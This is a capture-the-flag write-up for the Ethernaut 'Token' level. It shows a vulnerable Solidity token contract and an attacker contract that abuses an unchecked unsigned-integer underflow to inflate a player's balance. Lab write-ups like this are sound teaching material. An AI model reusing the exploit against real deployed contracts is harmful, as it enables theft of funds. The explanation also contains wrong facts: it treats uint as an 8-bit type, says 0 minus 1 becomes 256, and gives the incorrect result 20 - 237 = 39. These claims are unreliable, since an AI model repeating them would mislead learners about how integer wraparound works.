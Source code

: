## Ethernaut Level 05 - Token - Write-Up
<!--Authors: OofedUp-->

Difficulty: 3/10

![image](https://i.imgur.com/dUleqJ9.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

In this smart contract, the developer used normal operators to do math (`+`, `-`) which at first glance seems fine, but in Solidity, it's a huge vulnerability. That's why many contracts use the `SafeMath` library.

## Unsigned Integer Underflow

In Solidity, uint8 types (unsigned 8 bit integers)
behave in a weird way because of how they are stored in memory (you can read more about it [here](https://randomoracle.wordpress.com/2018/04/27/ethereum-solidity-and-integer-overflows-programming-blockchains-like-1970/)). This contract is vulnerable to such a underflow vulnerability here:

```javascript
require(balances[msg.sender] - _value >= 0);
```

Since `balances[msg.sender]` is a **uint** and its equal to `0`, if we subtract `1` from it, it will become `256`.

In this contract, we start off with 20 tokens, and we need to make that number bigger. For demonstration purposes, we will pass `237` (selected randomly) to the `transfer` function, and the `require(balances[msg.sender] - _value >= 0);` will pass because `20 - 237 = 256 - (237-20) = 39` which is `>= 0`. We need to create a new address/smart contract from which we will call this function, so that the tokens will not get subtracted as well at `require(balances[msg.sender] - _value >= 0)`.

This is the code that I used:

```javascript
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}

contract unsigned{
    Token main;

    function unsigned(){
        main = Token(INSTANCE ADDRESS);
    }

    function rotate() public{
        main.transfer(PLAYER ADDRESS, 237);
    }
}
```

We will have `20 + 237 = 257` tokens.

We can then check our balance and submit the contract:

![image](https://i.imgur.com/zeBmsLB.png)
